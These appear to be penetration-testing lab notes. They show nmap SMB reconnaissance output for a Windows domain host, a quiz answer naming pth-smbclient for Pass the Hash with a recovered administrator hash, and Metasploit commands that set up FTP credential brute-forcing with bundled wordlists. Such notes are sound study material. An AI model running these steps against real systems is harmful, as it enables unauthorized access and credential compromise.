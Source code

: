 ```bash
|_clock-skew: mean: 0s, deviation: 2s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: EC2AMAZ-DFA8KLR
|   NetBIOS computer name: EC2AMAZ-DFA8KLR\x00
|   Domain name: armsdon.hospital.local
|   Forest name: armsdon.hospital.local
|   FQDN: EC2AMAZ-DFA8KLR.armsdon.hospital.local
|_  System time: xxxxxx
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: xxxxx
|_  start_date: xxxxx
```

> Once the hash of the domain administrator has been recovered, which of the following programs can be used to perform a Pass the Hash attack?

`pth-smbclient`

What is `pth-smbclient`?

---

## ftp server

<https://pentestlab.blog/2012/03/01/attacking-the-ftp-service/>

```bash
mfsconsole

search ftp_login

use auxiliary/scanner/ftp/ftp_login

show options

set RHOST XXXXX

find / 2>/dev/null | grep -i wordlist | grep unix
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/unix_users.txt

set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

```
